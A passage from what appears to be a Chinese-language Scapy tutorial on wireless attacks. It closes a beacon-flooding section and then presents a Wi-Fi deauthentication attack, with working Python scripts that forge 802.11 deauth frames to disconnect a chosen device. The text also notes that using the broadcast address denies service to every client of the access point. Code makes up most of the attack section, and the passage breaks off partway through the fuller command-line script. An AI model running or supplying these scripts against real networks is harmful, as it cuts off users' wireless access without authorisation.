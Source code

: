 - **addr2：**源MAC地址，发送方的MAC地址。
- **addr3：**接入点的MAC地址。

所以我们应该使用addr2和addr3相同的MAC地址，这是因为发送者是访问点！

我们使用ssid信息创建信标帧，然后将它们全部堆叠在一起并使用sendp（）函数发送它们。



##  2. Deauth Attack

### tip

1. 如何使用Scapy来踢出您实际上不属于Python的特定网络中的设备?

   这可以通过使用处于监视模式的网络设备在空中发送取消身份验证帧来完成。 

2.  攻击者可以随时用受害计算机的欺骗性MAC地址将取消身份验证帧发送到无线访问点，从而使该访问点对该用户进行取消身份验证。 

3.  scapy有一个数据包类Dot11Deauth（）可以满足我们的要求，它以802.11原因码作为参数，我们现在选择值7 

### 代码

1. 初级

```python
from scapy.all import *
target_mac = "00:ae:fa:81:e2:5e"
gateway_mac = "e8:94:f6:c4:97:3f"
# 802.11 frame
# addr1: destination MAC
# addr2: source MAC
# addr3: Access Point MAC
dot11 = Dot11(addr1=target_mac, addr2=gateway_mac, addr3=gateway_mac)
# stack them up
packet = RadioTap()/dot11/Dot11Deauth(reason=7)
# send the packet
sendp(packet, inter=0.1, count=100, iface="wlan0mon", verbose=1)
```

这基本上是访问点请求从目标设备撤消身份验证的原因，这就是为什么我们将目标MAC地址设置为目标设备的MAC地址，将源MAC地址设置为访问点的MAC地址，然后我们将堆叠帧发送100次的原因0.1s，这将导致取消身份验证10秒钟。

您还可以将“ ff：ff：ff：ff：ff：ff：ff”（广播MAC地址）设置为addr1，这将导致完全拒绝服务，因为没有设备可以连接到该访问点，因此非常有害！

2. 完整代码

```python
from scapy.all import *

def deauth(target_mac, gateway_mac, inter=0.1, count=None, loop=1, iface="wlan0mon", verbose=1):
    # 802.11 frame
    # addr1: destination MAC
    # addr2: source MAC
    # addr3: Access Point MAC
    dot11 = Dot11(addr1=target_mac, addr2=gateway_mac, addr3=gateway_mac)
    # stack them up
    packet = RadioTap()/dot11/Dot11Deauth(reason=7)
    # send the packet
    sendp(packet, inter=inter, count=count, loop=loop, iface=iface, verbose=verbose)

if __name__ == "__main__":
    import argparse
    parser = argparse.ArgumentParser(description="A python script for sending deauthentication frames")
    parser.add_argument("target", help="Target MAC address to deauthenticate.")
    parser.add_argument("gateway", help="Gateway MAC address that target is authenticated with")
    parser.add_argument("-c" , "--count", help="number of deauthentication frames to send, specify 0 to keep sending infinitely, default is 0", default=0)
```